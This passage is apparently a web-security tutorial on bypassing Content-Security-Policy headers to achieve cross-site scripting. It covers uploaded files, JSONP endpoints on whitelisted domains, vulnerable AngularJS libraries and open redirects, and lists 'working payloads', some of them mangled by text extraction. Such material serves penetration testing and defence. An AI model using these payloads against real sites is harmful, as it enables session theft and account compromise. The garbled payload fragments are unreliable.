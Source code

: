 **Scenario**: **5**

Content-Security-Policy: script-src ‘self’; object-src ‘none’ ; report-uri /Report-parsing-url;

we can see object-src is set to none but yes this CSP can be bypassed too to perform XSS. How ? If the application allows users to upload any type of file to the host. An attacker can upload any malicious script and call within any tag.

working payloads :"/&gt;’&gt;

**Scenario** : **6**

Content-Security-Policy: script-src ‘self’ https://www.google.com; object-src ‘none’ ; report-uri /Report-parsing-url;

In such scenarios where script-src is set to self and a particular domain which is whitelisted, it can be bypassed using jsonp. [jsonp](https://github.com/zigoo0/JSONBee) endpoints allow insecure callback methods which allow an attacker to perform xss.

working payload :"&gt;

**Scenario** : **7**

Content-Security-Policy: script-src ‘self’ https://cdnjs.cloudflare.com/; object-src ‘none’ ; report-uri /Report-parsing-url;

In such scenarios where script-src is set to self and a javascript library domain which is whitelisted. It can be bypassed using any vulnerable version of javascript file from that library , which allows the attacker to perform xss.

working payloads :

{{ x = $on.curry.call().eval(“fetch(‘http://localhost/index.php’).then(d =&gt; {}) ") }}

"&gt;

{{<span class="math inline">$eval.constructor('alert(1)')()}}&lt;/div&gt;"&gt;&lt;script src="https://cdnjs.cloudflare.com/angularjs/1.1.3/angular.min.js"&gt; &lt;/script&gt; &lt;div ng-app ng-csp id=p ng-click=$</span>event.view.alert(1337)&gt;

**Scenario** : **8**

Content-Security-Policy: script-src ‘self’ ajax.googleapis.com[;](https://cdnjs.cloudflare.com/;) object-src ‘none’ ;report-uri /Report-parsing-url;

If the application is using angular JS and scripts are loaded from a whitelisted domain. It is possible to bypass this CSP policy by calling callback functions and vulnerable class. For more details visit this awesome [git](https://github.com/cure53/XSSChallengeWiki/wiki/H5SC-Minichallenge-3:-%22Sh*t,-it's-CSP!%22) repo.

working payloads :ng-app"ng-csp ng-click=$event.view.alert(1337)&gt;

"&gt;

**Scenario** : **9**

Content-Security-Policy: script-src ‘self’ accounts.google.com/random/ website.with.redirect.com [;](https://cdnjs.cloudflare.com/;) object-src ‘none’ ; report-uri /Report-parsing-url;

In the above scenario, there are two whitelisted domains from where scripts can be loaded to the webpage. Now if one domain has any open redirect endpoint CSP can be bypassed easily. The reason behind that is an attacker can craft a payload using redirect domain targeting to other whitelisted domains having a jsonp endpoint. And in this scenario XSS will execute because while redirection browser only validated host, not the path parameters.
